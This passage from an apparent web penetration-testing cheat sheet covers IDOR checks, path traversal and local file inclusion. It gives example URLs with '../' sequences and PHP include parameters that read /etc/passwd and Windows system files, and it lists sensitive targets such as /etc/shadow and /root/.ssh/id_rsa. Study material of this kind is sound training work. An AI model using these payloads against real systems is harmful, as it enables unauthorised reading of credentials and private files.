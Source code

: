 Unpredictable -> The methode is as follow : create two accounts and check if you can see information about the second account as the first

<br>

---

## File Inclusion

Access informations (directories, files, etc.) that you should not

### Path Traversal (dot-dot-slash)

Manipalution URL to access ressources on or outside the application's root directory

```bash
# PHP Function 
file_get_contents
```

```bash
# Linux Example
https://mysite.fake/get.php?file=file1
https://mysite.fake/get.php?file=../../../../etc/passwd

# Windows example
https://mysite.fake/get.php?file=file1
https://mysite.fake/get.php?file=../../../../boot.ini
https://mysite.fake/get.php?file=../../../../windows/win.ini
```

```bash
# Interresting files examples
/etc/issue
/etc/profiles
/proc/version
/etc/passwd
/etc/shadow
/root/.bash_history
/var/log/dmessage
/var/mail/root
/root/.ssh/id_rsa
/var/log/apache2/access.log
C:\boot.ini
```

### Local File Inclusion (LFI)

#### No specific directory

Using "include", "require", "include_once", "require_once"

```bash
# Example
# On source code -> include($_GET["lang"]);
http://webapp.thm/index.php?lang=EN.php -> English page
http://webapp.thm/index.php?lang=EN.php -> Arabic page
# If there is not validation input, we can read all file readable one the remote server
http://webapp.thm/index.php?lang=/etc/passwd
http://webapp.thm/index.php?file=/etc/passwd
```
